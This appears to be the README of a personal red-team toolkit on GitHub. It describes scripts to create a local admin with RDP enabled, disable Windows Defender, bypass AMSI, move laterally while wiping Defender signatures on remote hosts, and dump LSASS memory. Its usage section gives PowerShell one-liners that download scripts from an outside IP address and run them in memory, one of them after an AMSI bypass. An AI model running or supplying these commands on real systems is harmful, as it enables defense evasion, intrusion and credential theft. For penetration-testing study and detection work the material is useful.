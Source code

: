 # Miscellaneous

## ToC

| Application | Format | Notes |
| ----------- | ------ | ----- |
| `Autos` | PS | Scripts to automate things I found myself doing a lot |
| `AV_Stuff` | PS | Basic scripts for AV/Applocker Enumertion |
| `Fileless_Lateral_Movement` | EXE | PSExec-like tool utilizing remote service configuration for lateral movement |
| `MiniDump` | EXE/PS | A simple binary to Dump LSASS to a file for offline examination |


## `Autos`
Scripts to automate things I found myself doing a lot.

### Tools
- `Create-Admin.ps1`
    - Create a local Administrator user on the box and enable RDP
    - Requires: High Integrity process
- `Compress-ScriptBlock.ps1`
    - Minify a Powershell *ScriptBlock*. Pulled from [StartAutomating/PSMinifier](https://github.com/StartAutomating/PSMinifier)
    - Usage:
    ```ps1
    . .\Compress-ScriptBlock.ps1   # import it as a module
    $sb=get-command <tgt_file_path> | select -ExpandProperty ScriptBlock # get the scriptblock for your target file
    Compress-ScriptBlock -ScriptBlock $sb > <out_file>
    ```
    - Warning:
        - Its not perfect, I usually have to do a good amount of manual work
        - *Deletes default values for function parameters*


## `AV_Stuff`
Basic scripts for AV and Applocker Enumeration or Disabling that I created with the help of online resources (all credited).

### `Disable-AVProduct.ps1` 
Get the status of the Antivirus Product on local and Remote Computers, then if Windows Defender is detected locally, disable as much of it as possible.
- Credits:
    - `SyncroMSP` at [mspscripts.com](https://mspscripts.com/get-installed-antivirus-information-2/) for `Get-LHSAntiVirusProduct()`
- References:
    - [learn.microsoft.com](https://learn.microsoft.com/en-us/windows-hardware/customize/desktop/unattend/security-malware-windows-defender-disableantispyware)
    - [jeremybeaume/tools](https://github.com/jeremybeaume/tools/blob/master/disable-defender.ps1)
    - [viperone.gitbook.io/pentest-everything](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/defense-evasion/disable-defender)
- Requires:
    - Admin privs to disable stuff, enumeration part is fine
- Usage:
    ```ps1
    powershell.exe -ExecutionPolicy Bypass -c "(new-object system.net.webclient).downloadstring('http://192.168.45.166/Disable-AVProduct.ps1') | IEX;"
    ```
    - It doesn't get detected by my version of Defender (v4.18.1807.18075) since its really all semi-normal functionality, but if you have AMSI problems just bypass it first
    ```ps1
    powershell.exe -ExecutionPolicy Bypass -c "(new-object system.net.webclient).downloadstring('http://192.168.45.166/amsi.txt') | IEX; (new-object system.net.webclient).downloadstring('http://192.168.45.166/Disable-AVProduct.ps1') | IEX;"
    ```

#### `Disable-AVProduct.min.ps1`
A more concise `Disable-AVProduct.ps1` for active use. Each function is contained entirely on a newline, no comments, etc. Not obfuscated, just smaller (almost half-sized).

Might have some bugs because of the minifying process. I've tested it a decent amount and it works but if something comes up lmk!

### `Get-AppLockerRules.ps1`

Enumerate Applocker Rules. Very basic, will update in future.


## `Fileless_Lateral_Movement`

Wipes Windows Defender signatures on the *remote host* and uses a `PSExec`-like method (except using an existing process) to achieve lateral movement. Takes arguments for the target, the target service, and the target binary to run. Note that a non-critical service should be chosen, such as `SensorService`.

### Usage

```
Usage:   PSLessExec.exe [Target] [Service]     [BinaryToRun]
Example: PSLessExec.exe appsrv01 SensorService notepad.exe
```

## `MiniDump`
A simple binary to Dump LSASS to `C:\Windows\Tasks\lsass.dmp`. Also provided as a native PowerShell script.
